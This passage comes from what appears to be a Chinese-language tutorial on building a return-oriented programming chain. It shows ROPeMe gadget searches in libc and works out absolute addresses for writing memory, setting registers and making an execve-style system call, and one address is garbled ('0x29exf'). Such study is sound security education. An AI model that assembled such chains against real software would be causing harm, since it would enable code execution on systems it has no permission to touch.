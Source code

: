 mov [eax] ecx ：将 ecx 中的值存放到 eax中的地址指向的内存区。
找到的 mov 指令的实际地址为 :
```
0x29exf+0xb7e63000 = 0xB7E8CECF
```

那么在执行这个 gadget 之前，需先调用 "pop eax;ret" "pop ecx;ret" 设置eax，ecx的值，eax 为刚找的内存地址 0x08049704 ，ecx 为字符串。

**（3）查找 pop 指令序列**
```
ROPeMe> search pop ecx %
Searching for ROP gadget: pop ecx % with constraints: []
0x3ca61L: pop ecx ; add ecx 0xa ; mov [edx] ecx ;;
0xd8f30L: pop ecx ; pop eax ;;
0xd8f51L: pop ecx ; pop eax ;;
0xe2c02L: pop ecx ; pop ebx ;;
0x2a6ebL: pop ecx ; pop edx ;;
ROPeMe>
```

一个指令序列 "pop ecx;pop eax;;" 就可以一次设置 eax ecx 的值。
地址 ： 0xd8f30+0xb7e63000 = 0xB7F3BF30

接下来需要向内存中写入 NULL，但要时刻记住，shellcode中不能出现 NULL。
因为首先清零一个寄存器 r32_1，然后是用 mov [r32_2] ,r32_1;ret 指令将 0 放入内存中。

之前我们找到了 "xor eax,eax;ret" gadget，现在只需找 "mov r[32],eax;ret" gadget

```
ROPeMe> search mov % eax
Searching for ROP gadget: mov % eax with constraints: []
0xf0cffL: mov [0x810001e9] eax ;;
0xdc5ffL: mov [0x81000330] eax ;;
0x2a71cL: mov [edx+0x14] ecx ; mov [edx+0xc] ebp ; mov [edx+0x18] eax ;;
0x2a722L: mov [edx+0x18] eax ;;
```

mov [edx+0x18] eax ;;    将 eax 的内容 存放在 edx + 0x18 指向的内存区。
地址 ： 0x2a722+0xb7e63000 = 0xB7E8D722

现在需要 "pop ebx" , "pop ecx" , "pop edx" 加载相应的参数到相应的寄存器。

```
0x78af4L: pop ebx ;; 0x78af4+0xb7e63000 = 0xB7EDBAF4
0x2a6ebL: pop ecx ; pop edx ;; 0x2a6eb+0xb7e63000 = 0xB7E8D6EB
```

寻找 将系统调用号 放入 eax 的gadget。
之前 eax 清零了，使用 算术运算 就可以了

```
0x7faa8L: add eax 0xb ;; 0x7faa8+0xb7e63000 = 0xB7EE2AA8
```

**（4）最后一个 gadget 即执行系统调用指令**
但是我们没有找到 int 0x80 指令，但是找到了内核系统调用指令 call gd:[0x10]

```
0xa10f5L: call gs:[0x10] ;; 0xa10f5 + 0xb7e63000 = 0xB7F040F5
```
